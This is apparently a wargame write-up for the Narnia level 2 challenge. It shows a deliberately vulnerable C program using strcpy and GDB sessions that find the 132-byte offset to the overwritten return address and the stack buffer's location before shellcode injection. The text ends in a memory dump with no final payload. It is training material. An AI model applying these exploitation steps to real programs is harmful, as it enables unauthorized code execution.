 The code for this challenge is:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
  
int main(int argc, char * argv[]){
    char buf[128];
  
    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);
  
    return 0;
}
```

At first glance, this looks like another buffer overflow attack. the program initializes a buffer of 128 bytes, and copies user argument input into it. Let's find out how we hack it.

let's give the program an input larger than 128 bytes and see how it acts.
Using common buffer overflow tool, i generated a 150 chars that follow a pattern so i could locate which bytes are the trouble makers.

```ruby
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Starting program: /narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

<code snipped>
Program received signal SIGSEGV, Segmentation fault.
0x41346541 in ?? ()
```

As we can see the EIP register is overwritten with `0x41346541` which is a `A4eA`. This string is at offset 132 in our pattern. 

This means that the bytes from 132 to 136 will hold the memory address of the instruction we want to run. 

Great, now we need to inject a shellcode into the memory, and make EIP point to it. let's use GDB again to locate the memory address our buffer is at.

```ruby
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<code snipped>

(gdb) x/300xw $esp
<code snipped>
0xffffd63c: 0x00000019 0xffffd66b 0x0000001a 0x00000002
0xffffd64c: 0x0000001f 0xffffdfe8 0x0000000f 0xffffd67b
0xffffd65c: 0x00000000 0x00000000 0x00000000 0xbd000000
0xffffd66c: 0xf69da5cf 0x799005bc 0x7a6a395f 0x69bb45b1
0xffffd67c: 0x00363836 0x00000000 0x616e2f00 0x61696e72
0xffffd68c: 0x72616e2f 0x3261696e 0x41414100 0x41414141
0xffffd69c: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd6ac: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd6bc: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd6cc: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd6dc: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd6ec: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffd6fc: 0x41414141 0x41414141 0x41414141 0x41414141
```